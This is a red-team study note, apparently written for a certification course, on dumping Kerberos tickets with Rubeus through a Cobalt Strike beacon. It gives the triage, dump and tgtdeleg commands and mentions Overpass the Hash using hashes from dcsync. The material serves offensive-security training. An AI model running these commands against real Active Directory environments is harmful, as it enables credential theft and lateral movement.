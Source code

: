 
[[Kerberos]] tickets can help an attacker perform malicious actions like Kerberoasting, lateral movement, generate more tickets, etc.

These actions can cause a lot of noise though.

### 🖊️ via [Rubeus](https://github.com/GhostPack/Rubeus)

Uses legitimate Windows APIs, reducing the noise.

- Its `triage` command will list all the Kerberos tickets in your current logon session and if elevated, from all logon sessions on the machine.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage`

![[kerberos_sessions.png]]

LUID (local unique identifier) is the logon session identifier. 
krbtgt - [[Ticket Granting Ticket (TGT)]] tickets
All others are [[Ticket Granting Service (TGS)]] tickets

- Once listed, you can extract them all or specific tickets from a session

All tickets
`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump`

---
A specific ticket
`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt`

This will output the ticket(s) in base64 encoded format.

  You may also add the `/nowrap` option which will format the base64 encoding onto a single line - this makes copy & pasting much easier.

---
Using TGT delegation method (non elevated session):

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap
```

Here you will obtain a TGT ticket of your current session.

### 🖊️ via Pivoting

In this section is detailed how you can extract tickets with external tools via pivoting:

- [[Pivoting with Kerberos]]


### ⚠ Rubeus + NTLM hash

If you have the NTLM or AES (can be extracted via [[dcsync]] or [[Impacket]] using getTGT, check [[Pivoting with Kerberos]]) hash of a user, you can request a new TGT for that user, using the technique [[Overpass the Hash]]. 

### Properties
---
📆 created   {{11-02-2024}} 12:00
🏷️ tags: #redteam #crto #activedirectory 

---

